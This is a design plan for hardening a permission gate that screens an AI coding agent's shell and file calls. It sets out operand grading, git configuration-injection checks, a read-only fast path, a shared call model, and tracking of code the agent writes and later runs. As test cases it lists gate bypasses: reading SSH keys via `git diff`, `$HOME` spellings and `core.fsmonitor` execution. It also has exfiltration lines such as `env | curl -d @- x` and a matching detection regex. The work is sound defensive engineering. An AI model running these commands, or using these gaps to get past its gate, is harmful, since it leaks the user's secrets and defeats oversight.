


# Call model, rule hardening and measurement — plan

**Status.** Approved by the user on 2026-10-05, not yet executed: items 1-8, item 1's shell-expansion amendment
(1a), and items 9-12. On 2026-10-07 the user reordered delivery: item 12 (the file split) now comes first, along
the file's existing sections, and item 9 follows the small Part A fixes; see "Delivery" and decision 11. Item 9's
ADR is reviewed by the user before any of its code is written; see "Decisions". The plan is
independent of `docs/plans/tool-access-hardening.md` for items 1-8 and 11, and builds on it for items 9, 10 and 12;
see "Interaction with the tool-access plan".

Written 2026-10-05 against HEAD `c7f9d2e` (`v0.17.0`), and extended the same day against HEAD `3215e89` (the
extension source is unchanged between the two). This file was first committed as
`docs/plans/allow-operands-and-floor-gaps.md`; it was renamed when items 9-12 joined, before any item was executed.
Line references are to `extensions/pi-verdict.ts` at those commits.

## Purpose

The gate should decide from what a call actually reads, writes and runs, not from the spelling of its text. Today
it partly decides from spelling. A user `allow` regex admits a command without looking at its operands. Each layer
reads a shell command with its own lexer and expands paths its own way. Code the agent writes into the project is
never reviewed when the agent later runs it. Nobody can measure how a rule change moves real decisions.

The plan has three parts:

- **Part A, operand grading and floor gaps (items 1-8).** These are concrete fixes from the evaluation of odin-rnd
  EXP 007 (`research/odin-blueprint-floor-evaluation.md`), plus a built-in fast path that the fixes make sound.
- **Part B, one reading of each call (items 9-10).** One shared *call model* replaces the per-layer readings, and
  uses it to follow code the agent wrote this session into its execution.
- **Part C, evidence and structure (items 11-12).** These add a replay tool that measures the effect of rule changes
  on recorded decisions, and split the single 4,788-line file along the seams Part B creates.

Items 9 and 12 take over two items that the tool-access plan defers: the path-resolution service and the file split
(`docs/plans/tool-access-hardening.md`, "Deferred").

Solid arrows are hard dependencies. Dotted arrows are a recommended order.

## Context

ADR-0008 lets a user `allow` regex admit only one simple command (`allowAdmits`, `:462`), but that check reads the
command's *shape*, not its *operands*. Two consequences follow. A file the floor would deny to a file tool is allowed
by rule when bash reads it. A git subcommand that reads or runs things outside the repository is also allowed by rule.
The documented example policy is affected: `docs/configuration.md:9`, `README.md:96` and the config template comment
at `:685` all ship `allow: ["^git (status|log|diff)\\b"]`.

The path tiers (S0/S1, `classifyPath`) run only for file tools. For bash they never see an operand, so a secret read
through bash is a classifier call at best, and under an allow rule it is a silent rule allow. The handover's first
layering consequence describes this gap; this plan closes it for the allow path.

Measured at HEAD. The config was `allow: ["^git (status|log|diff)\\b", "^cat\\b"]`, the run was headless, and there
was no model:

| Command | Verdict | Why |
| --- | --- | --- |
| `git diff --no-index /dev/null ~/.ssh/id_rsa` | `allow/rule` | the operand is never graded; prints the key |
| `git diff /dev/null ~/.ssh/id_rsa` (no `--no-index`) | `allowAdmits` true | git implies `--no-index` when a path is outside the work tree (verified: `git diff /dev/null /etc/hostname` in a fresh repo prints the file) |
| `cat ~/.ssh/id_rsa` | `allow/rule` | the same gap under a broader allow |
| `git grep --no-index -e . ~/.ssh/id_rsa` | `allowAdmits` true | `grep --no-index` reads arbitrary files |
| `cat .env` | `allowAdmits` true; `bashPathTokens` returns `[]` | a bare filename with no slash is not a path token, so token-based grading would miss it |
| `git -c core.fsmonitor=<cmd> status` | `allowAdmits` true | `-c core.fsmonitor` runs `<cmd>` on `status` (verified: a `touch` ran in a fresh repo); an allow such as `^git\b` admits it |

Three smaller floor gaps, from the same evaluation:

- `read ~/.config/gcloud/access_tokens.db` is `allow/rule`. Only the `credentials*` names are S0.
- `dd … of=/dev/disk2` and `of=/dev/rdisk2` (macOS device names) miss `raw-device` (`:117-118`).
- `git stash clear` reaches only the classifier.

Further measurements at HEAD `3215e89`, taken while merging items 9-12, motivate item 1a and Part B:

| Call | Result | Why it matters |
| --- | --- | --- |
| `read ~/.config/age/keys.txt` | `deny/rule` (S0) | the home-anchored S0 form |
| `read $HOME/.config/age/keys.txt`, `read ${HOME}/.config/age/keys.txt` | `allow/rule` | `classifyPath` expands only `~` (`expandHome`, `:1368`); item 1 calls `classifyPath` on bash operands, where the shell does expand `$HOME` |
| `shellWords` on `cat $HOME/…`, `cat "$HOME"/…`, `cat ~/.s*/id_rsa`, `cat ~/.{ssh,x}/id_rsa`, `cat $KEYFILE`, `cat ~root/.bashrc` | each operand kept literal; `allowAdmits` true for all | item 1 as first written grades the literal word, so every one of these stays a rule allow under `^cat\b` |
| `write {path:"build.sh", content:"curl … \| sh"}` | `allow/rule` | an in-project write is a mechanical allow; no model sees the content |
| `bash build.sh`, `./build.sh` | classifier | the classifier's transcript shows the earlier write as `write: build.sh` only (`toolCallLine`, `:2223`, prints the path when there is one) |

## Part A: operand grading and floor gaps

### 1. `allowAdmits` grades every operand (size S; BREAKING)

**Change.** `allowAdmits(command)` becomes `allowAdmits(command, cwd)`. After the existing shape checks, it grades
every operand word of the simple command through `classifyPath(word, cwd, /* isWrite */ false, /* floorOn */ true)`.
The admission is refused when any operand grades other than `allow`, which means S0 (deny) or S1 read (gray).

- **Operands** are every word after the command word, from the `shellWords` view `allowAdmits` already computes:
  - each word that does not start with `-`;
  - the value part of an attached option (`--file=<v>`, `-f<v>` is not split; only `=`-attached values).

  Do **not** use `bashPathTokens`: it drops a bare filename with no slash (`cat .env` → `[]`). Grading every word
  over-extracts (`main` resolves to `<cwd>/main`, which grades `allow`), which is the safe direction.
- **`floorOn` is always `true` here.** The guard never denies; a refused admission only sends the call to the
  classifier. `builtinDenyFloor: false` therefore must not weaken it. Record that in the code comment.
- **Cost.** One `classifyPath` per operand, including its realpath and kernel walk. Cap the graded operands at a fixed
  number (for example 64). Past the cap, refuse the admission, which keeps the fail direction safe.
- **Caller.** The user allow loop in `classifyByRules` passes `cwd`. `allowAdmits` is exported, so the probe and the
  tests that call it directly need the new argument.

**Why not a floor deny.** The S0 regexes as a bash deny would false-positive on `ssh -i ~/.ssh/id_x host` and on
`ssh-keygen -f`. The evaluation rejects that, and this item does not do it. A refused allow only reaches the
classifier, so the change can never turn an allow into a deny on its own.

**1a. Shell expansion in operands (amendment approved 2026-10-05).** The shell expands an operand
before the command sees it, and the word view does not (see the measurements in "Context"). Grading the literal word
therefore misses the file the command actually reads. Before grading, normalise each operand the way bash does where
the result is exact, and refuse the admission where it is not:

- **Expand** a leading `~` or `~/`, `$HOME` and `${HOME}` to the home directory, whether the word was quoted or not.
  Expanding a single-quoted `'$HOME'` over-approximates, which only refuses an admission.
- **Refuse the admission** when an operand still contains an expansion the gate cannot resolve:
  - any other `$` (a variable such as `$KEYFILE`, which an earlier call may have exported);
  - `~user`;
  - a brace expansion (`{` with a `,` or `..` before its closing `}`);
  - a glob metacharacter (`*`, `?`, `[`).
- **One exception, for globs.** A glob with no `/` that does not start with `.` (`ls *.ts`) matches only non-hidden
  entries of the cwd's top level. Admit it, and grade it as the cwd itself, so `cat *` inside `~/.ssh` is still
  refused.
- **A `HOME` reassignment guard.** Once any earlier bash call in the session assigns `HOME` (`HOME=…`,
  `export HOME=…`, `declare`/`typeset` of `HOME`), refuse the admission of every home-relative operand for the rest
  of the session. Scan the session branch and the current command's earlier segments; a match anywhere in the text
  is enough, since over-matching only costs a classifier call.

**Why the gate expands no other variable.** The gate cannot know a variable's value, because the bash tool's shell
does not share the gate's environment. omp runs every bash call of an agent session in one persistent shell
(`exec/bash-executor.ts:185`, `:270`), so an `export KEYFILE=~/.ssh/id_rsa` in one call is still set in the next. The
shell also starts from a snapshot of the user's shell startup files (`getOrCreateSnapshot`, `:534`), and omp folds
the project's direnv `.envrc` into each command (`applyDirenvPreflight`, `:139-178`). The agent can write `.envrc`
as an ordinary in-project allow. Expanding from the gate's own `process.env` would therefore turn an unknown value
into a wrong one, and admit the call; refusing costs only a classifier call. Refusal also keeps secrets out of the
transcript: with variables expanded, `echo $AWS_SECRET_ACCESS_KEY` would be fast-path allowed (item 7) and print
the secret. The same persistence is why the `HOME` guard exists: after `export HOME=~/.ssh`, `cat ~/id_rsa` reads the
key while the gate grades the real home directory.

Item 9 later moves this normalisation into the shared path resolver. Item 1 needs it now, because without it the
item closes `cat ~/.config/age/keys.txt` and leaves `cat $HOME/.config/age/keys.txt` open.

**Tests (failing before, passing after).** Use a `describe("allow operand grading (ADR-0008 amendment)")` block, with
literals built by concatenation:

- Under `allow: ["^git (status|log|diff)\\b"]`, `git diff --no-index /dev/null ~/.ssh/id_rsa` and
  `git diff /dev/null ~/.ssh/id_rsa` both reach the classifier (`h.calls` length 1).
- Under `allow: ["^cat\\b"]`, these reach the classifier: `cat ~/.ssh/id_rsa`, `cat ~/.aws/credentials`, `cat .env`
  (in a cwd containing `.env`) and `cat /etc/shadow` (S1 read).
- Item 1a, under `allow: ["^cat\\b"]`, each reaches the classifier: `cat $HOME/.config/age/keys.txt`,
  `cat ${HOME}/.config/age/keys.txt`, `cat "$HOME"/.ssh/id_rsa`, `cat ~/.s*/id_rsa`, `cat ~/.{ssh,x}/id_rsa`,
  `cat $KEYFILE` and `cat ~root/.bashrc`.
- The `HOME` guard: after an earlier `export HOME=/tmp/x` call in the session branch, `cat ~/notes.txt` reaches the
  classifier under `allow: ["^cat\\b"]`. The same command in a branch without the assignment stays `allow/rule`.
- Controls that stay `allow/rule` with zero calls: `cat README.md`, `git status`, `git log --oneline`, `ls -la`, and
  `ls *.ts` under `allow: ["^ls\\b"]`.
- `allowAdmits` unit pins for an attached value (`--file=~/.ssh/id_rsa`) and for the operand cap.
- Under `builtinDenyFloor: false`, `cat ~/.ssh/id_rsa` still does not rule-allow.

**Probe.** Add cases to the `user-allow` family with `config.allow` set to the documented example, expecting
`classifier`, for the two `git diff` spellings, `cat .env`, `cat ~/.ssh/id_rsa` and `cat $HOME/.config/age/keys.txt`.
Add the controls as `allow`. Each new case enters as `known: "open"` and loses its marker in this item's commit.

**Docs.** Add an ADR-0008 amendment listing the new guard (f), operand grading with its expansion rule, and why it is
not a floor deny. Add a CHANGELOG `### Changed` entry marked **BREAKING**: allow rules no longer admit commands whose
operands are secrets or system configuration, or whose operands the gate cannot expand. Add a
`docs/configuration.md` note next to the `allow` key.

### 2. Git subcommands that reach outside the repository (size S; BREAKING)

Item 1 grades secrets, but git can also read files outside the repository that are not S0, such as
`~/.bash_history` (S0 already) or `/proc/self/environ`. It can also run commands through configuration. Add to
`allowAdmits`, beside the existing `GIT_WRITE_FLAGS` check (`:447`, `:484-489`):

- **(g) reads outside the work tree.** For a `git` invocation whose subcommand is `diff` or `grep`, refuse admission
  when `--no-index` is present. Also refuse it when any operand that is not an option resolves outside `cwd` (lexical
  or real form, via `baseForms`). git applies `--no-index` implicitly in that case, so the flag alone is not enough.
  Over-refusal, such as a `git diff` of two in-repo revisions named like paths, only costs a classifier call.
- **(h) configuration injection.** Refuse admission when any word before the subcommand is `-c`, starts with `-c` and
  is longer than 2 characters, or is `--config-env` / `--config-env=…`. `-c` can set `core.fsmonitor`,
  `core.pager`, `diff.external`, `core.sshCommand` or a `!` alias, and each of those runs a program. The documented
  `^git (status|log|diff)` regex does not match `git -c … status`, so this matters for broader user allows such as
  `^git\b`. Also refuse `-C <dir>` when `<dir>` resolves outside `cwd`, so the existing outside-cwd reasoning cannot
  be dodged by retargeting.

**Tests.** Under `allow: ["^git\\b"]`, each of these reaches the classifier:

- `git diff /dev/null /etc/hostname`;
- `git diff --no-index a b`;
- `git grep --no-index -e x /etc`;
- `git -c core.fsmonitor=x status`;
- `git -C / status`.

Controls that stay `allow/rule`: `git status`, `git diff HEAD~1`, `git diff -- src/x.ts` (an in-cwd file) and
`git -C . status`.

**Probe.** Add `user-allow` cases for the `-c core.fsmonitor` and implicit-`--no-index` spellings, expecting
`classifier`. Enter them as open cases.

**Docs.** Fold this into the same ADR-0008 amendment and CHANGELOG entry as item 1. Update the `GIT_WRITE_FLAGS`
comment, which then covers reads and execution as well as writes.

### 3. gcloud joins the home-anchored S0 set (size XS)

Add `gcloud` to the home branch of the first `buildAnchoredS0` regex (`:1427`), next to `gnupg|age|sops`, and to its
XDG branch. gcloud keeps OAuth tokens and service-account keys under `~/.config/gcloud/` (`access_tokens.db`,
`credentials.db`, `legacy_credentials/`). Anchor it to the home or XDG root, not segment-anywhere, so a repository's
own `.config/gcloud/` reaches the classifier (the rationale at `:1414-1418`).

- **Tests and probe:**
  - `read ~/.config/gcloud/access_tokens.db` → `deny/rule` with reason `S0`;
  - the XDG spelling via `setXdgConfigRootsForTests`;
  - a control: `read <repo>/.config/gcloud/x` is not a rule deny.
- **Attribution:** the pattern comes from jev-engineering's `hard_deny` 09. Add a source comment
  (`eugeniughelbur/jev-engineering@82655a6d policy.json, MIT, Copyright (c) 2026 Eugeniu Ghelbur`). The
  evaluation's licensing section explains why.

### 4. `raw-device` covers macOS disk names (size XS)

Extend both device alternations in `raw-device` (`:118`) with `r?disk[0-9]`, so that
`>\s*\/dev\/(sd|hd|nvme|mmcblk|vd|xvd|r?disk[0-9])` and the matching `of=` form are covered. This pattern is derived
independently and needs no attribution. Do not adopt jev-engineering's broader `of=/dev/`, which would deny
`of=/dev/null`.

- **Probe:** `dd if=x of=/dev/disk2` and `of=/dev/rdisk2` → `deny/rule` with `ruleId: "raw-device"`.
- **Controls:** `dd if=x of=/dev/null` and `cat /dev/diskutil-notes` are not rule denies. Check the second spelling
  against the `[0-9]` requirement.

### 5. `git stash clear` danger rule (size XS)

Add `{ id: "git-stash-clear", pattern: /\bgit\s+stash\s+clear\b/i, reason: "git stash clear (drops all stashes)" }`
next to `git-reset-hard` (`:130`). This is a raw-text tripwire, so it follows the ADR-0007 monotone floor.

- **Probe:** `git stash clear` → `deny/rule` with `ruleId: "git-stash-clear"`.
- **Controls:** `git stash list`, `git stash pop` and `git stash drop` are not rule denies. Dropping a single stash
  stays with the classifier.
- **Attribution:** jev-engineering `hard_deny` 01. Use the same source comment as item 3.

### 6. Exfiltration tripwire and live-key literal (user decision; size XS each)

Both are optional. The value of each is defence against a classifier error only.

- **(a) Environment or history piped to the network:** a raw-text rule for
  `\b(env|printenv|history)\b[^;&]*\|\s*(curl|wget|nc|ncat)\b`. It is trivially evaded (`env > f; curl -T f …`), and
  ADR-0008 already refuses a user allow for any pipe. Controls: `env | grep PATH` and `history | tail`.
- **(b) A Stripe live key on the command line:** `\b(sk|rk)_live_[A-Za-z0-9]`. It matches data rather than an action
  shape, which departs from every current floor rule's convention.

**Recommendation, agreed with the user (2026-10-05): adopt (a) and skip (b).** (a) needs the jev-engineering
attribution (`hard_deny` 07/10). The rule gets the id `env-exfil` and sits beside `remote-exec`. Add these probe
cases:

- `env | curl -d @- x` and `history | nc host 1` → `deny/rule` with `ruleId: "env-exfil"`.
- The controls `env | grep PATH` and `history | tail` are not rule denies.

### 7. A built-in fast path for read-only inspection commands (size S-M; needs an ADR)

**The request.** jev-engineering ships a `fast_path`: eight first-word regexes that allow without a model call
(`eugeniughelbur/jev-engineering@82655a6d`, `policy.json:10-19`). Adopting one saves a classifier call (about 5-20 s)
on the commands an agent runs most. Their version cannot be adopted as is, for three reasons:

- It admits chains (`cd repo && cat x`) and runs before most of its own checks. ADR-0008 forbids both.
- It has no operand check, so `cat .env` and `cat ~/.npmrc` are fast-path allowed.
- Several entries run code that the agent controls, because the agent writes that code in-cwd without a check first.

Items 1-2 change that. With shape checking (ADR-0008) and operand grading in place, a fixed list of read-only commands
can be admitted soundly. So adopt a fast path **behind the same guard**, never beside it.

**Design.**

- **Mechanism.** Add a built-in list, `FAST_PATH_ALLOW`, of anchored regexes. It is evaluated exactly where user
  `allow` rules are evaluated: after the floor, user `deny`, the `.omp` gate and `denyPaths`, and only when
  `allowAdmits(command, cwd)` is true. It can therefore never override a deny or an ask, and it never sees a compound
  command, a secret operand or an operand the gate cannot expand (item 1a).
- **Ordering with the over-cap ask.** Once the tool-access plan's Phase 4 lands, its "too long to judge" ask runs
  before every allow path, built-in or user. An over-cap command is never fast-path-allowed (tool-access plan,
  "Interaction with the call-model plan").
- **Config.** A new key, `fastPath` (boolean). **It defaults to `true`; this is the recommendation, agreed with the
  user on 2026-10-05.** The list is read-only and sits behind the same guard as user allows, so it is sound for
  everyone, and the speed gain matters most to users who never write an allow rule. A user turns it off with
  `"fastPath": false`. A trusted project override may only set it to `false` (narrowing, in line with ADR-0006 and
  the tool-access plan's direction table). Add the key to `USER_CONFIG_TEMPLATE`, its `_hint` copy, `KNOWN_USER_KEYS`,
  `PROJECT_OVERRIDABLE_KEYS` with the narrowing direction, `docs/configuration.md` and the `/verdict` editor if it
  edits booleans. The CHANGELOG entry is not BREAKING, but it is a visible default change: commands on the list stop
  reaching the classifier. Say so in the entry.
- **Verdict.** `allow/rule` with the reason `built-in fast path`. Keep the rule id visible, so the probe and the
  audit can tell a fast-path allow from a user allow.

**What enters the list.** Each entry is checked against the semantics of what it runs, not against jev-engineering:

| Their entry | Decision | Reason |
| --- | --- | --- |
| `git (status\|diff\|log)` | adopt | read-only; item 2 covers `--no-index`, outside operands and `-c` |
| `git branch` | adopt **list forms only** | `-d`, `-D`, `-m`, `-M`, `-c`, `-C`, `-f`, `--delete`, `--move`, `--copy`, `--force`, `--set-upstream-to` and `-u` mutate refs; refuse when any is present |
| `git remote` | adopt **`-v`, bare, `show`, `get-url` only** | `add`, `remove`, `rename`, `set-url` and `prune` mutate |
| `git fetch` | **reject** | network access and ref writes; it can also run `core.sshCommand` from repo config |
| `ls`, `pwd`, `wc`, `tree`, `file`, `stat` | adopt | `ls -R` and `tree` list names, not content |
| `cat`, `head`, `tail` | adopt | operand grading (item 1) stops secrets; reject `tail -f`/`--follow`, which never returns (availability, not security) |
| `grep` | adopt, **non-recursive only, or recursive inside cwd** | `grep -r x ~` reads every secret under the home directory without naming one, so a whole-word operand grade cannot see it. Refuse `-r`, `-R`, `--recursive`, `-d recurse` and `--directories=recurse` when any operand, or the implicit cwd, resolves outside `cwd` |
| `echo` | adopt | `allowAdmits` already refuses redirection |
| `node`/`python3`/`npm`/`uv`/`cargo`/`go` `--version` | adopt, **exact form only** (`^\s*<tool>\s+--version\s*$`) | an extra argument after `--version` could change what runs |
| `npm`/`pnpm`/`yarn run test\|lint\|typecheck\|build` | **reject** | runs `package.json` scripts, which the agent can rewrite with an unreviewed in-cwd write; that is classifier-free code execution |
| `pytest`, `uv run pytest` | **reject** | runs test code the agent writes |
| `eslint`, `ruff`, `mypy`, `uv run ruff` | **reject** | eslint loads JavaScript configs and plugins, and mypy loads plugins from config; ruff is safe in principle, but one rule for the family is simpler |

The executable-code rejections are the important part. A fast path that admits `npm run test` turns "write
`package.json`, then run the tests" into an action no model ever sees. Users who accept that trade can still add the
regex to their own `allow` list, where ADR-0008's rule that the user endorses the claim applies. Item 10 narrows that
user-side trade as well.

**ADR.** This partly reverses the project's "no built-in allowlist" position (#12, `docs/layers.md:146-147`,
`research/rule-layer-security-audit.md` V3). Write a new ADR, taking the next free number at landing time, since the
tool-access plan reserves ADR-0009 and ADR-0010. It records three things:

- why V3's objection no longer holds: the guard is shape-checked and operand-graded, and the list is fixed and
  read-only;
- the list's admission criterion: read-only, no project-controlled code execution, bounded run time;
- the rejected entries, with their reasons.

If item 11 has landed, cite its replay result in the ADR: the share of recorded classifier calls the list would have
absorbed.

Update `docs/layers.md`, the README pipeline diagram, `CONTEXT.md` (add the term "fast path") and
`docs/security-principles.md`, which states the no-built-in-allowlist principle.

**Tests and probe.** Add a `fast-path` probe family, with an empty user config:

- Each adopted form → `allow/rule`.
- Each rejected entry → `classifier`.
- Each refused variant → `classifier`: `git branch -D x`, `git remote add x y`, `grep -r x ~`, `tail -f log`,
  `node --version; id`.
- Each secret or unexpandable operand → `classifier`: `cat .env`, `head ~/.ssh/id_rsa`, `cat $HOME/.config/age/keys.txt`.
- `fastPath: false` → `classifier` for `ls`.
- A trusted project setting `fastPath: true` over a user `false` is ignored.

**Dependency.** Item 7 lands only after items 1-2, in its own commit; it is unsound without operand grading.

**Attribution.** The list is re-derived and narrowed. Still, cite jev-engineering `fast_path` as its origin in the
ADR and in a source comment, with the MIT notice from item 3.

### 8. Classifier wording: weakened transport security (size XS)

jev-axi's `SAFETY_QUESTIONS` names one family that `CLASSIFIER_SYSTEM` (`:2170-2179`) does not list explicitly:
disabling TLS verification or a firewall. Examples are `curl -k`, `git -c http.sslVerify=false`,
`NODE_TLS_REJECT_UNAUTHORIZED=0`, `ufw disable` and `iptables -F`. Add one sentence naming it to the classifier's
"weakens security" criterion. This is prompt text only; changes to the deterministic layers are out of scope.

- **Test:** pin the sentence's presence in `CLASSIFIER_SYSTEM`.
- **Attribution:** none needed, because the idea is restated, not copied.

### Nothing else to translate

The other six rule sets (hunch, abide, jev-pref, limpet, jev-belay, and the experiment's copy of upstream
pi-verdict) grade code diffs or session stop transcripts, not tool calls (`rules/SELECTION.md@292ccac:30-108,
160-172`). Their diff rules, such as forbidding `console.log` or `as` casts in added code, are code-review policy. A
permission gate does not inspect write content, so none of them maps onto this plugin.

## Part B: one reading of each call

### 9. One call model for every layer (size M-L in S-M steps; needs an ADR)

**Problem.** The layers read the same call in different ways, and the differences are where bypasses come from. For
a bash command there are five readings:

- the floor's raw-text regexes (`BASH_DANGER_RULES`);
- the `shellWords` word view (the `git-push-force` check and `allowAdmits`);
- `bashPathTokens` (`:1670`), which extracts paths for `denyPaths`;
- `OMP_DIR_IN_COMMAND` (`:1813`), the `.omp` gate's raw regex;
- self-protection's substring signatures plus its own `cd` parser, `bashDirectoryTargets` (`:2035`).

Path expansion differs too. `expandHome` and `classifyPath` expand `~` only. `denyPathForms` (`:1755`) also expands
`$HOME`, and `bashDirectoryTargets` expands `$HOME` and `$PI_CODING_AGENT_DIR`. None of them expands `${HOME}`. Item
1a exists because of this, and the earlier audit traced the out-of-scope walker and dangling-link defects to the same
cause: each needed one fix per layer (`research/2026-10-04-architecture-review.md`, F4 and F10). The tool-access
plan's adapter (`toolAccess`, its Phase 2) unifies what a *file* call touches, but it leaves `command` as an opaque
string.

**Change.** Extend the tool-access adapter into a *call model*: one reading of each call, built once per
`adjudicate` and passed to every layer. The design below is provisional; the ADR settles it. **Write the ADR first,
and have the user review it before migration step 1** (user decision, 2026-10-05).

- **Shell reading.** For `kind: "command"`, the adapter adds one shell reading built on `shellWords`: the simple
  commands in order, each with its command word, operands, redirect targets and their modes, and one `sound` flag
  for the whole reading. Every operand carries its expansion state from item 1a: resolved, or unresolvable.
- **Read, write and execute targets.** The reading derives `reads`, `writes` and a new `executes` list. Redirect
  targets become writes, which `allowAdmits` today leaves to the classifier (ADR-0008). Over-extraction is the safe
  direction, as in the adapter.
- **One path resolver.** `resolveTarget(raw, cwd, { shell })` returns `{ raw, lexical, real?, rebuilt[], kernel[],
  unresolvable }` once per target. It owns the single expansion table: `~` always, and with `shell` set also
  `$HOME`, `${HOME}` and the refusals of item 1a. Each consumer names the tiers it uses. ADR-0002's base-tier-only
  rule for `denyPaths` then becomes an explicit parameter, still pinned by its existing test.
- **The monotone rule extends to every consumer.** ADR-0007 already says a sound parse may only clear a raw-text hit.
  Apply the same rule to every layer that reads raw text today: the call model may add targets, and may clear a
  raw-text hit only on a sound reading, but never replaces a raw-text check. `OMP_DIR_IN_COMMAND`, the
  self-protection signatures and the danger tripwires stay. A layer's extraction becomes the union of its old
  extraction and the call model's, so no layer can grade less than it did before.

**Migration, one consumer per commit, each with probe parity.**

1. Add the shell reading and `resolveTarget` with no consumer, and a table-driven unit suite: every spelling in item
   1a, the `.env` bare-name case, redirects, here-documents (unsound), and quoting.
2. `allowAdmits` reads operands from the call model; item 1a's local normalisation is deleted. No behaviour change.
3. `denyPaths` for bash takes the union of `bashPathTokens` and the call model's targets. This change is visible:
   bare names such as `cat .env` and `${HOME}` spellings start to reach the `denyPaths` ask. Disclose it in the
   CHANGELOG.
4. Self-protection's `cd` targets come from the call model, as a union with `bashDirectoryTargets`.
5. `userRuleTargets` and `classifyPath` callers take resolved targets. `kernelWalk` and the realpath calls then run
   once per target per call, instead of once per layer.

After step 5, the follow-up recorded in the tool-access plan applies: operand extraction reads from the adapter, not
from `bashPathTokens`.

**Tests and probe.** Every existing probe case keeps its layer and verdict at each step. Add a probe check that
compares each case's verdict before and after a migration commit, and fails if any verdict moves from deny or ask
toward allow. Step 3's new asks enter as new cases.

**Docs.** A new ADR records the call model, the union rule, and the extension of ADR-0007's monotone rule. Add the
term "call model" to `CONTEXT.md`, and update the "dual-form matching" entry to name the resolver's tiers.
`docs/layers.md` gains the shared reading.

### 10. Follow code the agent wrote into its execution (size M; BREAKING for some user allows)

**Problem.** An in-project write is a mechanical allow, and the classifier never sees its content. Running that file
later reaches the classifier as a command line, and the transcript shows only `write: build.sh` (measured in
"Context"). So no check ever reads the code. The same holds for indirect execution: the agent rewrites
`package.json` or a `Makefile`, then runs `npm test` or `make`. Item 7 keeps those runners off the fast path for this
reason. A user `allow` such as `^npm (test|run)\b` or `^bash scripts/` still admits them with no review.

**Change (provisional, except the written set's sources, which the user approved on 2026-10-05).**

- **The written set.** It records the paths this session wrote, and for each one the write payload: the `write`
  content or the patch text. Sources are the call model's `writes` for `write`, `edit` and `ast_edit`, and redirect
  targets from bash. Over-recording is safe.
  - **Primary source: an in-memory set on `SessionState`**, filled when the gate adjudicates a write-shaped call.
    A call counts as written from that moment, even if it is later blocked or fails.
  - **Seed: the session branch.** At `session_start`, refill the set from the `toolCall` blocks in
